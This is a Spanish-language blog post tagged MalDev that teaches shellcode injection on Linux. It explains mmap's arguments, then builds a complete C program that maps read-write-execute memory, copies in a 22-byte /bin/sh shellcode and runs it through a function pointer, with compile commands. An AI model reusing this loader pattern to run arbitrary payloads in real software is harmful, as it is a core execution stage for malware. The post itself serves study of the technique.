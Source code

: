 ```yaml
---
layout: post
title: Inyeccion de shellcodes usando la syscall mmap
author: c4rta
date: 2023-06-10
tags: [MalDev]
image: /assets/img/mmap_injection/waifu.jpg
---
```

Desarrollaremos un programa en C el cual inyectara una shellcode usando la syscall mmap()
{:.lead}

## mmap

mmap es una syscall y una funcion incorporada en el header ```sys/mman.h``` la cual permite asignar o mapear memoria dentro del espacio de direcciones virtuales de un proceso, mmap regresa un puntero void (void *), la estructura es:

```c
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

- **void *addr**: Es la direccion desde donde se va a asignar la memoria, esta direccion se la podemos asignar manualmente, o en todo caso de que le pogamos ```NULL```, le estamos diciendo al kernel que asigne la memoria, regularmente  la asigna a direcciones cercanas pero mayores a ```/proc/sys/vm/mmap_min_addr```

- **size_t length**: Es la longitud en bytes de la memoria que se va a asignar

- **int prot**: Se refiera a con que protecciones vamos a asignar la memoria, hay varias
  - PROT_EXEC: La memoria es ejecutable
  - PROT_READ: La memoria tiene permisos de lectura
  - PROT_WRIT: La memoria tiene permisos de escritura

- **int flags**: Determina si las actualizaciones de la memoria, son visibles para otras asignaciones de memoria dentro de la misma region de la memoria, existe muchas flags, asi que puedes leer cada una de ellas [aqui](https://man7.org/linux/man-pages/man2/mmap.2.html).

- **int fd**: Es el descriptor de archivos el cual sera asginado

- **off_t offset**: Es el desplazamiento desde donde se va a asignar la memoria

Una vez sabiendo eso ya podemos comenzar a tirar codigo

## Desarrollo del programa

Primero debemos de empezar a declarar nuestra shellcode como una cadena de caracteres de esta manera:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05";
```
La shellcode ejecutara un /bin/sh

Dentro de una funcion, empezare a declarar todo el codigo de la inyeccion, primero debemos sacar el tamaño en bytes de la shellcode, ya que es uno de los argumentos que recibe **mmap**

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;
}
```
Observa que se le esta agregando un ```- 1```, esto es para quitarle el byte nulo.

Despues haremos el llamado a ```mmap```:

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
}
```

La direccion donde se va a asignar la memoria es ```NULL``` para que el kernel la elija, el tamaño de la memoria a asignar es el tamaño de la shellcode, en las flag le decimos que la memoria se asigne con permisos de lectura, escritura, y ejecucion, con el ```-1``` le estamos diciendo al descriptor de archivos que no se requiere un archivo ya existente y que solo asigne memoria, y te podras dar cuenta de algo, estamos usando la flag ```MAP_ANONYMOUS + MAP_PRIVATE```, con esas flags le estamos indicando que la asignacion sera simplemente un bloque de memoria en ceros (por eso mismo el offset es 0), la cual estara lista de usar, ademas de ser privada, es decir, estara excluida de otras asignaciones de memoria dentro de la misma region de memoria

Aqui dibuje un diagrama de la asgnacion de memoria con mmap tomando en cuenta el ejemplo

![](/assets/img/mmap_injection/mmap.jpeg)

Lo que se ve a la izquierda es la memoria virtual de un proceso (sin entrar tanto en detalle), te podras dar cuenta que la memoria de la shellcode se asigno dentro de una seccion que se llama ```Memory Mapping```, en esta seccion se asigna memoria para las librerias compartidas y dinamicas, ademas de las asignaciones de ```mmap```, pero ojo, para que una asignacion de ```mmap``` recida en esta seccion, debe de ir con la flag ```MAP_ANONYMOUS```.

Resumidamente el diagrama seria algo asi:

- Usamos ```sizeof()``` para obtener el tamaño de la shellcode y lo guardamos en ```tam_shellcode```
- Asignamos memoria con ```mmap``` donde el tamaño es lo que tiene ```tam_shellcode``` (22 bytes)
- Usamos ```MAP_ANONYMOUS``` para indicarle que la asignacion se haga dentro de la seccion ```Memory Mapping```,

una vez que asignamos memoria para la shellcode, debemos de copiar la shellcode en esa memoria, eso lo hacemos con ```memcpy```, memcpy se usa para copiar cierta cantidad de bytes desde un origen a un destino.

```c
memcpy(shellcode_mem, shellcode, tam_shellcode);
```

En nuestro ejemplo le estamos diciendo que copie 22 bytes (tam_shellcode) del origen (shellcode), hacia la memoria que asignamos (shellcode_mem), y con esta operacion, nuestra shellcode ya estara escrita en la memoria que asigamos con mmap.

Ahora debemos de invocar a la shellcode, para eso realizamos esto:

```c
void (*shellcode_ptr)() = (void (*)())shellcode_mem;
shellcode_ptr();
```

Primero definimos ```shellcode_ptr``` como un puntero a una funcion, con el fin de asignar a ```shellcode_ptr``` la direccion de memora que contiene ```shellcode_mem``` ya que cabe recordar que ```shellcode_mem``` contiene la direccion de memoria desde donde se asigno la shellcode, que es un tipo void *

Despues con ```void (*)()``` le estamos diciendo que defina un puntero a una funcion que no recibe argumentos ni tampoco retorne nada, esto con el fin de que ```shellcode_mem``` sea interpretado como un puntero hacia esa funcion, entonces a travez de ```shellcode_ptr``` podemos mandar a llamar a ```shellcode_mem```.

Asi que cuando se haga un llamado a ```shellcode_ptr();```, ejecutara lo que esta almacenado en ```shellcode_mem```, lo cual es la shellcode:D

Despues solo queda a mandar a llamar a la funcion ```ejecutar_shellcode()``` desde el main:

```c
int main() {
    ejecutar_shellcode();
    return 0;
}
```

Y el codigo completo queda asi:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"; //bin/sh

void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );

    memcpy(shellcode_mem, shellcode, tam_shellcode);

    printf("Tamaño de la shellcode: %zu bytes\n", tam_shellcode);
    printf("Shellcode asignada desde la direccion: %p\n", shellcode_mem);

        void (*shellcode_ptr)() = (void (*)())shellcode_mem;

        shellcode_ptr();
}

int main() {
    ejecutar_shellcode();
    return 0;
}
```

Solo queda compilar y ejectuar

```
gcc -o inyeccion_mmap inyeccion_mmap.c
./inyeccion_mmap
```

Eso ha sido todo, gracias por leer ❤